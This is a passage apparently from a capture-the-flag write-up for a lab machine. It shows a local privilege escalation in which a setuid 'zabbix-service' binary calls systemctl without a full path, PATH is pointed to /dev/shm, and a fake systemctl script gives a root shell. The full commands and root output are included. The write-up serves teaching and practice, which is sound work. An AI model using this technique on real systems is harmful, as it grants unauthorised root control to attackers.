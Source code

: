 
Of interest, there’s a call towards the end: `system("systemctl daemon-reload
&& syste`. It’s a bit cut off, but I can see it better in `strings`:

    
    
    zapper@zipper:~/utils$  strings zabbix-service | grep system
    system
    systemctl daemon-reload && systemctl start zabbix-agent
    systemctl stop zabbix-agent
    system@@GLIBC_2.0
    

That’s calling `system` on `systemctl` without a path. If I change the path
and call again, I can replace systemctl with my own thing to run.

Save the old path, and then set the path to `/dev/shm`:

    
    
    zapper@zipper:~/utils$ echo $PATH
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    zapper@zipper:~/utils$ export OLD=$PATH
    zapper@zipper:~/utils$ export PATH=/dev/shm
    

Now if I run `zabbix-service`, it fails:

    
    
    zapper@zipper:~/utils$ ./zabbix-service 
    start or stop?: start
    sh: 1: systemctl: not found
    

Now drop a sh script to run a shell:

    
    
    zapper@zipper:~/utils$ /bin/cat /dev/shm/systemctl 
    #!/bin/sh
    
    /bin/sh
    

And run again:

    
    
    zapper@zipper:~/utils$ ./zabbix-service 
    start or stop?: start
    # id
    /bin/sh: 1: id: not found
    # echo $OLD
    /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
    # export PATH=$OLD
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(zapper)
    